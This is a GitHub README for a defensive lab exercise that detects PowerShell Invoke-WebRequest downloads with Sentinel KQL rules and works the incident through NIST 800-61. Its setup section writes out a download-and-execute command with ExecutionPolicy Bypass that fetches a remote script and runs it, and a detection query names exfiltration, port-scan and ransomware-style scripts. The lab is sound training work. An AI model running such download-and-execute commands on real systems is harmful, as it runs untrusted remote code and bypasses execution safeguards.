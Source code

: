 <p align="center">
  <a href="https://github.com/Samuel-Cavada" target="_blank">
    <img src="https://img.shields.io/badge/Back_to_Main_Page-000000?style=for-the-badge&logo=github&logoColor=white" alt="Back to Main Page"/>
  </a>
</p>

<h1 align="center">Scenario 2: PowerShell Suspicious Web Request</h1>

<p align="center">
  <img src="https://img.shields.io/badge/Platform-Azure%20Sentinel-0078D4?style=for-the-badge&logo=microsoftazure&logoColor=white" alt="Cloud Platform" />
  <img src="https://img.shields.io/badge/OS-Windows%2010-0078D6?style=for-the-badge&logo=windows&logoColor=white" alt="OS" />
  <img src="https://img.shields.io/badge/Tool-Microsoft%20Sentinel-00B388?style=for-the-badge&logo=microsoftazure&logoColor=white" alt="Tool" />
  <img src="https://img.shields.io/badge/Tool-Microsoft%20Defender%20for%20Endpoint-2C5EA8?style=for-the-badge&logo=microsoftdefender&logoColor=white" alt="Tool" />
  <img src="https://img.shields.io/badge/Focus-Post%20Exploitation%20Detection-orange?style=for-the-badge" alt="Focus Area" />
</p>

---

## 📌 Project Objective
> Detect and investigate the use of PowerShell's `Invoke-WebRequest` for downloading files from the internet—an activity often used by attackers during post-exploitation phases. This scenario involves creating an analytics rule in Sentinel and working the resulting incident to closure using the NIST 800-61 framework.

---

## 🧰 Tools & Technologies
- **Platform:** Azure
- **OS:** Windows 10
- **Tools:** Microsoft Sentinel, Microsoft Defender for Endpoint, PowerShell
- **Languages/Scripts:** PowerShell, KQL

---

## 🧠 Skills Gained / Focus Areas
- Detected use of `Invoke-WebRequest` via process telemetry
- Created a Sentinel alert rule to detect suspicious PowerShell usage
- Investigated execution of downloaded scripts
- Applied entity mapping and incident triage methodology

---

## 🧪 Environment Setup
> Onboarded Windows 10 VM to Microsoft Defender for Endpoint. Ran the following command to simulate malicious activity:
```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1' -OutFile 'C:\programdata\eicar.ps1';
powershell.exe -ExecutionPolicy Bypass -File 'C:\programdata\eicar.ps1';
```

![Environment Setup](assets/images/setup.jpg)

---

## 🛠️ Walkthrough
1. [Step 1: Create Alert Rule](#step-1-create-alert-rule)
2. [Step 2: Trigger Alert](#step-2-trigger-alert)
3. [Step 3: Work Incident](#step-3-work-incident)
4. [Step 4: Cleanup](#step-4-cleanup)

---

### ✅ Step 1: Create Alert Rule
> KQL used to detect suspicious PowerShell downloads:
```kql
let TargetHostname = "windows-target-1"; 
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated
```

> **Analytics Rule Settings:**
- Run every 4 hours
- Lookup data for last 24 hours
- Map entities:  
  - **Account:** AccountName  
  - **Host:** DeviceName  
  - **Process:** ProcessCommandLine
- Automatically create Incident
- Stop running query after alert is generated
- Group alerts into one Incident per 24 hours

---

### ✅ Step 2: Trigger Alert
> - Simulated execution of `Invoke-WebRequest` via PowerShell
> - Alert triggered and incident created in Sentinel
> - Incident visible in: **Threat Management → Incidents**

---

### ✅ Step 3: Work Incident
> Followed **NIST 800-61** Lifecycle:

**Preparation:**  
- Roles, logging tools, and VM setup confirmed

**Detection & Analysis:**  
- Incident observed: "Josh - PowerShell Suspicious Web Request"  
- Multiple scripts downloaded via PowerShell:
  - `https://raw.githubusercontent.com/.../eicar.ps1`
  - `https://raw.githubusercontent.com/.../portscan.ps1`

> Checked if any downloaded scripts were executed:
```kql
let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
```

> Findings:
- `eicar.ps1` and `portscan.ps1` executed by `labuser`  
- `eicar.ps1` simulated malware signature  
- `portscan.ps1` launched internal port scan

**Containment, Eradication, and Recovery:**  
- VM isolated using MDE  
- Anti-malware scan performed  
- Files removed and system returned to normal state  

**Post-Incident:**  
- Policy recommendation: restrict PowerShell usage for non-admin users  
- Alert tuning for frequent script downloads  

**Closure:**  
- Incident marked **True Positive**  
- All notes and queries documented  
- Case closed in Sentinel

---

## 📝 Timeline Summary and Findings
- Alert triggered by `Invoke-WebRequest` detection  
- Multiple suspicious scripts were downloaded and run  
- Executed scripts confirmed through process telemetry  
- Incident triaged and remediated successfully  

---

## 📎 References
- [MITRE ATT&CK: T1059.001 – PowerShell](https://attack.mitre.org/techniques/T1059/001/)
- [Advanced Hunting – DeviceProcessEvents]()
